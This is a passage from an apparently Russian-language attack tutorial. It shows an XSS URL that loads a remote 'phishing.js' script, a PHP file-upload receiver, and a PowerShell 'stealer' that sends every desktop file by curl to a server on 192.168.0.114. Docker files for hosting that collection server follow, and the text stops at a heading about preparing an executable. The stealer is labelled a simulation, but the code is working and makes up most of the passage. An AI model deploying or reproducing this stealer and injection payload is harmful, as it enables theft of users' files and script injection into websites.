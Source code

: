 ```http://192.168.0.69:2222/dashboard.php?payload=<script src="http://192.168.0.114:1111/phishing.js"></script>```
    $filename = basename($_FILES['file']['name']);
    $targetPath = $targetDir . $filename;

    if (move_uploaded_file($_FILES['file']['tmp_name'], $targetPath)) {
        echo "Файл успешно загружен: " . htmlspecialchars($filename);
    } else {
        echo "Ошибка при перемещении файла.";
    }
} else {
    echo "Файл не загружен или ошибка при загрузке.";
    if (isset($_FILES['file']['error'])) {
        echo "<br>Код ошибки: " . $_FILES['file']['error'];
    }
}
?>
```

Скрипт проверяет наличие директории uploads/, при необходимости создаёт её и сохраняет все переданные файлы. Входные данные очищаются функцией basename, чтобы предотвратить выход за пределы целевой папки.
📜 Вредоносный стиллер (PowerShell)

Для имитации работы используется PowerShell-скрипт, который собирает документы с рабочего стола и загружает их на upload.php.

```
$desktopPath = [Environment]::GetFolderPath("Desktop")
$files = Get-ChildItem -Path $desktopPath -File
foreach ($file in $files) {
    Write-Host "Sending file: $($file.Name)"
    & curl.exe -X POST -F "file=@$($file.FullName)" "http://192.168.0.114:2222/upload.php"
}
```

docker-compose.yml

```
version: '3.8'
services:
  stiller:
    image: php:8.1-apache
    container_name: still3r_s3rv3r
    volumes:
      - ./html:/var/www/html
    ports:
      - "2222:80"
```

Dockerfile

```
FROM php:8.1-apache
COPY . /var/www/html/
RUN chown -R www-data:www-data /var/www/html
```
⚙️ Подготовка исполняемого файла
